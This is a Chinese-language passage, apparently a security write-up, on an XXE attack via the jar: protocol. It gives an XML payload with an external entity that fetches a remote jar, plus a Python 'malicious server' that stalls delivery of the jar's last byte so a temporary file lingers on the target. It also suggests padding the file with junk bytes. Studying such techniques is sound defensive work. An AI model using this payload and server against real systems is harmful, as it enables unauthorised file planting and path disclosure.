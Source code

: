 加载的student.xml：

```dtd
<!DOCTYPE convert [ 
<!ENTITY  remote SYSTEM "jar:http://localhost:9999/jar.zip!/wm.php">
]>
<convert>&remote;</convert>
```

如果jar.zip中不存在wm.php，就会报错并输出寻找的路径

请求的恶意9999服务器如下，运行脚本时第一个参数写jar_file路径

```python
import sys 
import time 
import threading 
import socketserver 
from urllib.parse import quote 
import http.client as httpc 

listen_host = 'localhost' 
listen_port = 9999 
jar_file = sys.argv[1]

class JarRequestHandler(socketserver.BaseRequestHandler):  
    def handle(self):
        http_req = b''
        print('New connection:',self.client_address)
        while b'\r\n\r\n' not in http_req:
            try:
                http_req += self.request.recv(4096)
                print('Client req:\r\n',http_req.decode())
                jf = open(jar_file, 'rb')
                contents = jf.read()
                headers = ('''HTTP/1.0 200 OK\r\n'''
                '''Content-Type: application/java-archive\r\n\r\n''')
                self.request.sendall(headers.encode('ascii'))

                self.request.sendall(contents[:-1])
                time.sleep(30)
                print(30)
                self.request.sendall(contents[-1:])

            except Exception as e:
                print ("get error at:"+str(e))


if __name__ == '__main__':

    jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
    print ('waiting for connection...') 
    server_thread = threading.Thread(target=jarserver.serve_forever) 
    server_thread.daemon = True 
    server_thread.start() 
    server_thread.join()
```

为了让该文件长时间停留在系统中，使用sleep延长文件传输时间。又因为需要保持文件的完整性，需要用hex编辑器在文件末尾添加垃圾字符，延长整个传输时间



参考：

https://xz.aliyun.com/t/3357?time__1311=n4%2Bxnii%3DG%3D0Q0%3DLH405DK3gcjDCb1DgnxYuwhrID#toc-21